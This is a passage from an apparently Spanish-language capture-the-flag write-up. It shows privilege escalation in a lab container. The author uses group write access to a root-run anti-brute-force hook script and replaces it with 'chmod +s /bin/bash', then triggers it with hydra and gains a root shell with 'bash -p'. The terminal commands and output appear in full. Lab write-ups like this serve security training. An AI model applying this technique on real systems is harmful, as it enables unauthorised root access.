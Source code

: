 Vemos que es un bloqueo anti-hydra, al intentar usar fuerza bruta se ejecuta el `/etc/login_monitor/actionban.sh`, que es de root, pero `/etc/login_monitor` pertenece al grupo security y memesploit pertenece a ese grupo por lo que borramos ese archivo y creamos otro nuevo para que cuando ejecutemos hydra e intentemos hacer fuerza bruta se ejecute el script:

```bash

memesploit@62d20d0e9222:/etc/login_monitor$ id
uid=1001(memesploit) gid=1001(memesploit) groups=1001(memesploit),100(users),1003(security)
memesploit@62d20d0e9222:/etc/login_monitor$ cat 
actionban.sh   activity.sh    loggin.conf    network.conf   network.sh     security.conf  security.sh    
memesploit@62d20d0e9222:/etc/login_monitor$ cat actionban.sh 
#!/bin/bash

chmod +s /bin/bash
memesploit@62d20d0e9222:/etc/login_monitor$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1446024 Mar 31  2024 /bin/bash
memesploit@62d20d0e9222:/etc/login_monitor$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# 


```

**YA ESTAMOS COMO ROOT.**